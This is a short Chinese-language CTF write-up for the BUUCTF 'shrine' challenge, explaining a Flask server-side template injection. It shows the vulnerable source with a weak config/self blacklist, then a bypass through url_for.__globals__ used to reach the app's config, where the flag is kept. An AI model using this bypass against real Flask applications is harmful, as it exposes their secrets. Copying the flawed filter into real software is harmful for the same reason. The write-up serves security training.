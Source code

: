 ### url_for 绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b2abc2d0e0a243d400174c.png)

打开网页拿到源代码

```python
import flask
import os
 
app = flask.Flask(__name__)
 
app.config['FLAG'] = os.environ.pop('FLAG')
 
@app.route('/')
def index():
    return open(__file__).read()
 
@app.route('/shrine/<path:shrine>')
def shrine(shrine):
 
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
 
    return flask.render_template_string(safe_jinja(shrine))
 
if __name__ == '__main__':
    app.run(debug=True)
```

第二个路由在 `/shrine/` 路径下提交参数

我们简单测试注入 `/shrine/{{2+2}}`

![](https://pic1.imgdb.cn/item/67b2ac07d0e0a243d4001752.png)

黑名单中过滤了 config 及 self

url_for() 会返回视图函数对应的URL

我们注入 `{url_for.__globals__}` 得到

![](https://pic1.imgdb.cn/item/67b2acbcd0e0a243d4001779.png)

继续注入当前 `app` 的 `config`

![](https://pic1.imgdb.cn/item/67b2ace1d0e0a243d4001780.png)